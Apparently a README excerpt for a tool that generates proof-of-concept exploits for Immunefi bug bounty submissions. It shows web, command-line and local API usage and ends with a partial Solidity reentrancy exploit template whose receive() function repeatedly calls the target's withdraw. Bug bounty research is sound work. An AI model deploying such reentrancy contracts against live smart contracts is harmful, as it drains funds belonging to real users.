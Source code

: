 
## **🔧 USAGE INSTRUCTIONS**

### **Via Web Interface**
1. Navigate to Bug Bounty Dashboard
2. Click "Generate Immunefi PoC"
3. Follow the step-by-step wizard:
   - **Step 1**: Enter vulnerability details
   - **Step 2**: Specify technical parameters
   - **Step 3**: Assess impact and mitigation
   - **Step 4**: Generate and download PoC

### **Via Command Line**
```bash
node setup-immunefi-poc.js "Reentrancy Vulnerability" "reentrancy" "high" "0x1234...5678" "ethereum"
```

### **Via API**
```bash
curl -X POST http://localhost:5000/api/bugbounty/immunefi/generate-poc \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Reentrancy in Withdraw Function",
    "type": "reentrancy",
    "severity": "high",
    "targetContract": "0x1234567890abcdef1234567890abcdef12345678",
    "network": "ethereum",
    "description": "The withdraw function is vulnerable to reentrancy attacks...",
    "impact": "Attacker can drain all funds from the contract...",
    "mitigation": "Implement checks-effects-interactions pattern..."
  }'
```

---

## **📊 GENERATED CODE EXAMPLES**

### **Exploit Contract Template**
```solidity
contract ReentrancyExploit {
    ITarget public immutable target;
    address public immutable attacker;
    uint256 public profit;
    
    function executeExploit() external {
        // Step 1: Setup attack
        _setupAttack();
        
        // Step 2: Execute main exploit
        _executeMainAttack();
        
        // Step 3: Extract profit
        _extractProfit();
    }
    
    receive() external payable {
        // Reentrancy logic
        if (address(target).balance > 0) {
            target.withdraw(1 ether);
        }
    }
```